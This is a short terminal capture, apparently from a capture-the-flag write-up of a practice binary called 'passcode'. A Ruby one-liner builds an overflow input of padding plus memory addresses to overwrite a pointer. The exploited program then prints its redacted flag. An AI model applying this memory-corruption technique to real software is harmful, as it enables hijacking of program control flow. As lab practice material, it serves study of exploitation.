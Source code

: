 ```bash
passcode@ubuntu:~$ ruby -e "puts 96*?A + ?\x04 + ?\xa0 + ?\x04 + ?\x08 + 134514147.to_s" > /tmp/input.txt
-e:1:in `*': String can't be coerced into Fixnum (TypeError)
	from -e:1:in `<main>'
passcode@ubuntu:~$ ruby -e "puts ?A*96 + ?\x04 + ?\xa0 + ?\x04 + ?\x08 + 134514147.to_s" > /tmp/input.txt
passcode@ubuntu:~$ ./passcode < /tmp/input.txt
Toddler's Secure Login System 1.0 beta.
enter you name : Welcome AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA�!
Sorry mom.. I got <KEY>
enter passcode1 : Now I can safely trust you that you have credential :)
passcode@ubuntu:~$ 
```
